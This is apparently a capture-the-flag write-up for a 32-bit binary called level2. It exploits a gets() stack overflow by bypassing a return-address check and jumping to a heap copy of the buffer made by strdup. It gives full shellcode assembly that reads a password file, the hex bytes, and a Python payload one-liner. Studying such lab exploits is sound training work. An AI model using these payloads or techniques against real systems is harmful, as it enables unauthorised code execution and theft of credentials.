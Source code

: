 This one was a bit harder ! 

We have a binary file `./level2`, when we execute it, it reads stdin. If we write too much characters, the program segfaults.

By reading disassembly in Ghidra, we can see the `main` and `p` functions.  

The `p` function just reads stdin with gets in a buffer[76] on the stack ; then there's a check that the saved EIP on the stack doesn't contain an address starting with 0xB. 
This means that we can't make it point to the stack, the env or the libc for example.
Another thing of note is that the buffer is given to `strdup` at the end of the function (why? lol)

Since we can't overwrite EIP to point to the stack, we can instead point to the heap (thanks strdup for being here).
We can see that the return value of `strdup` is always the same, so all we need to do is just write this address on EIP.
Then, we'll be able to run anything that we put in the buffer. 

We write a shellcode. We could have run `execve("/bin/sh")` but we prefered write a shellcode that runs `/bin/cat /home/user/level3/.pass`.
```asm
xor    %edx,%edx   ; edx = 0 => env = NULL
xor    %eax, eax   ; eax = 0
push   %edx        ; \0
push   $0x73736170 ; pass
push   $0x2E2F2F33 ; 3//.
push   $0x6C657665 ; evel
push   $0x6C2F7265 ; er/l
push   $0x73752F65 ; e/us
push   $0x6D6F682F ; /hom
mov    %esp,%ecx   ; pointeur vers arg
push   %eax        ; \0
push   $0x7461632F ; /cat
push   $0x6E69622F ; /bin
mov    %esp,%ebx   ; pointeur vers path
push   %eax        ; NULL
push   %ecx        ; "/home/user/level2/.pass"
push   %ebx        ; "/bin/cat"
mov    %esp,%ecx   ; pointeur vers tableau d'args
mov    $0xb,%al    ; eax = 0x0b => execve
int    $0x80       ; interrupt syscall, run execve
```

Here is visualization of the stack at the end of our shellcode :
```
| 0x?? | <- "/bin/cat" <- ecx
| 0x?? | <- "/home/user/level3/.pass"
| NULL |
| /bin | <- ebx
| /cat |
| 0000 |
| /hom |
| e/us |
| er/l |
| evel |
| 3//. |
| pass |
```

After compiling the shellcode with `gcc -c shellcode.s` and extracting the hexadecimal representation with `objdump -S shellcode.o` we end up with this: 
```
\x31\xd2\x31\xc0\x52\x68\x70\x61\x73\x73\x68\x33\x2f\x2f\x2e\x68\x65\x76\x65\x6c\x68\x65\x72\x2f\x6c\x68\x65\x2f\x75\x73\x68\x2f\x68\x6f\x6d\x89\xe1\x50\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x50\x51\x53\x89\xe1\xb0\x0b\xcd\x80
```

Now we extract the address returned by `strdup` with GDB. We calculate the offset needed to overwrite EIP and we can craft the payload :
```bash
python -c 'print "\x31\xd2\x31\xc0\x52\x68\x70\x61\x73\x73\x68\x33\x2f\x2f\x2e\x68\x65\x76\x65\x6c\x68\x65\x72\x2f\x6c\x68\x65\x2f\x75\x73\x68\x2f\x68\x6f\x6d\x89\xe1\x50\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x50\x51\x53\x89\xe1\xb0\x0b\xcd\x80" + (80-59)*"\x00" + "\x08\x04\xa0\x08"[::-1]'
```
Just pipe this in level2 and we get the flag! Tadaaaaaa!
